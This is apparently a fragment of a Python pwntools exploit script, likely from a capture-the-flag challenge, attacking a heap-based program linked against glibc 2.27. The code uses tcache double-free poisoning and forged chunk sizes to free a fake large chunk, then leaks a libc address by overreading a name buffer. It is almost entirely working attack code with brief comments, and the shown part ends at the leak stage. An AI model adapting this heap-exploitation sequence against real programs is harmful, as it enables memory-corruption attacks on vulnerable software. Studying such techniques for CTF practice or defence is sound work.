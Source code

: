 ```python
    name_addr = curr + 8
    large_chunk = curr + 16
    libc = ELF("./libc-2.27.so")
    arena_libc = 0x3ebc40
    print(hex(name_addr))

    chunk_size = 0x420
    name = p64(chunk_size + 1)
    s.sendline(name)
    s.recvline()

    # ready for the tcache poisoning after unsorted bin attack
    size = 0x58
    write(s, size)
    delete(s)
    delete(s)

    size = 0x78
    write(s, size)
    delete(s)
    delete(s)

    # tamper size of next chunk
    print(get_name(s))
    size = 0x28
    write(s, size)
    delete(s)
    delete(s)
    write(s, size, p64(curr + chunk_size))
    write(s, size)
    write(s, size, p64(0) + p64(0x21))

    # tamper size of next next chunk
    print(get_name(s))
    size = 0x38
    write(s, size)
    delete(s)
    delete(s)
    write(s, size, p64(curr + chunk_size + 0x20))
    write(s, size)
    write(s, size, p64(0) + p64(0x21))

    # free large chunk
    print(get_name(s))
    size = 0x48
    write(s, size)
    delete(s)
    delete(s)
    # next next chunk is curr + 0x10 (large chunk)
    write(s, size, p64(large_chunk))
    write(s, size)
    write(s, size, b"free large_chunk")
    delete(s)

    # libc leak by overreading name from fd
    size = 0x58
    write(s, size, p64(name_addr))
    write(s, size)
    write(s, size, b"junkjunk")

    r = get_name(s)
    print(r)

```
